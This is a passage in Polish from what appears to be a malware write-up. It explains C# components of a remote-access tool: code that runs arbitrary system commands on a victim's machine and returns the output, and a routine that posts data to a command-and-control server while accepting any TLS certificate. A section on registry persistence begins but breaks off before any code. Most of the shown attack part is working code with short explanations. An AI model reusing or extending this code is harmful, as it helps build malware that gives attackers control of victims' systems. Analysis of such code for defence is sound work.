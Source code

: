 ```csharp
    string output = outputTask.Result;
    string error = errorTask.Result;

    return output + error;
}
```

**Opis:**

- **Asynchroniczne czytanie wyjścia i błędów:** Pozwala na równoczesne odczytywanie standardowego wyjścia i błędów.
- **Wykonywanie poleceń systemowych:** Umożliwia atakującemu zdalne uruchamianie dowolnych komend na systemie ofiary.

### 5.4. Szyfrowana Komunikacja

*Komunikacja z serwerem C2 jest zabezpieczona poprzez użycie protokołu HTTPS oraz dodatkowego szyfrowania danych.*

#### Przykład kodu:

```csharp
public async Task<string> SendRequestAsync(string url, string data)
{
    using (HttpClientHandler handler = new HttpClientHandler())
    {
        handler.ServerCertificateCustomValidationCallback = HttpClientHandler.DangerousAcceptAnyServerCertificateValidator;

        using (HttpClient client = new HttpClient(handler))
        {
            StringContent content = new StringContent(data, Encoding.UTF8, "application/json");

            HttpResponseMessage response = await client.PostAsync(url, content);

            string responseString = await response.Content.ReadAsStringAsync();

            return responseString;
        }
    }
}
```

**Opis:**

- **Pomijanie weryfikacji certyfikatu:** `DangerousAcceptAnyServerCertificateValidator` akceptuje każdy certyfikat SSL, co pozwala na użycie własnych, niezaufanych certyfikatów.
- **Użycie `HttpClient`:** Umożliwia wysyłanie żądań HTTP/HTTPS do serwera C2.

### 5.5. Mechanizmy Persistencji

*Malware implementuje mechanizmy persistencji, aby utrzymać się w systemie nawet po restarcie.*

#### Przykład modyfikacji rejestru:
